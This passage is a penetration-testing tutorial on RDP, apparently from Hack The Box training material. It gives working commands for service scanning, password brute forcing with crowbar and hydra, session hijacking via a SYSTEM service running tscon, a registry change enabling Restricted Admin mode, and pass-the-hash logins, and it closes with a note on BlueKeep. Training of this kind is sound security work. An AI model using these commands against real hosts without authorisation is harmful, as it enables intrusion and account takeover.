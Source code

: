 
```
nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```
In addition, we can use `--packet-trace` to track the individual packages and inspect their contents manually. We can see that the `RDP cookies` (`mstshash=nmap`) used by Nmap to interact with the RDP server can be identified by `threat hunters` and various security services such as [Endpoint Detection and Response](https://en.wikipedia.org/wiki/Endpoint_detection_and_response) (`EDR`), and can lock us out as penetration testers on hardened networks.

A Perl script named [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) has also been developed by [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) that can unauthentically identify the security settings of RDP servers based on the handshakes.

```
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check

./rdp-sec-check.pl 10.129.201.248
```

==Interaction==

```
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```

==Brute forcing==

```
Orbixio@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

Orbixio@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

==RDP Session Hijacking==

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-1-2.png)
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.
```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges.
```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\htb> net start sessionhijack
```

==RDP Pass-the-Hash (PtH)==

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell-session
Orbixio@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

==BlueKeep==
The vulnerability is also based, as with SMB, on manipulated requests sent to the targeted service. However, the dangerous thing here is that the vulnerability does not require user authentication to be triggered. Instead, the vulnerability occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a [Use-After-Free](https://cwe.mitre.org/data/definitions/416.html) (`UAF`) technique that uses freed memory to execute arbitrary code.
[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708).
